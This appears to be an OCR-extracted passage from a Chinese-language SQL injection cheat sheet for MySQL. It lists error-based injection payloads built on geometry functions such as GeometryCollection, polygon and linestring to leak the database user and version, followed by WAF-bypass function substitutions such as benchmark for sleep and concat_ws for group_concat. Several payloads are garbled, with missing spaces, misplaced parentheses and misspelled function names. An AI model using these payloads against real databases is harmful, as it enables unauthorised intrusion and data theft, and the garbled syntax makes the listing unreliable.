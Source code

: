   and exists(selectfrom (selectfrom(selectname_const(@@version,0))a join (select name_const(@@version,0))b)c);

  7、通过GeometryCollection()报错,注入语句如下:

  and GeometryCollection(()select *from(select user () )a)b );

  8、通过polygon ()报错,注入语句如下:

  and polygon (()select * from(select user ())a)b );

  9、通过multipoint ()报错,注入语句如下:

  and multipoint (()select * from(select user() )a)b );

  10、通过multlinestring ()报错,注入语句如下:

  and multlinestring (()select * from(selectuser () )a)b );

  11、通过multpolygon ()报错,注入语句如下:

  and multpolygon (()select * from(selectuser () )a)b );

  12、通过linestring ()报错,注入语句如下:

  and linestring (()select * from(select user() )a)b );

  ```

- ### **绕过**

  #### **函数替换**

  ```sql

  sleep() -->benchmark()

     select 12,23 and sleep(1);

     select 12,23 and benchmark(10000000,1);

     //参数可以是需要执行的次数和表达式。第一个参数是执行次数，第二个执行的表达式

  ascii()-->hex()、bin()

        //HEX() 将字符串或数字转换为十六进制格式。

        //BIN() 将数字转换为二进制格式。

  group_concat()–>concat_ws()

       select group_concat(“str1”,“str2”);

       select concat_ws(“,”,“str1”,“str2”);

       //CONCAT_WS(separator, string1, string2, ..., stringN) 用于将多个字符串连接成一个字符串，并在每个非空值之间插      入指定的分隔符,第一个参数为分隔符

  substr()-->substring(),mid(),left(),right()

       //LEFT() 和 RIGHT() 是 SQL 函数，用于从字符串中提取从左边或右边开始的指定长度的子字符串。

       left('Hello World',5) 左侧开始读取5个字符为 hello

       注意这类函数mid(str, 1, 1)需要有空格来满足格式

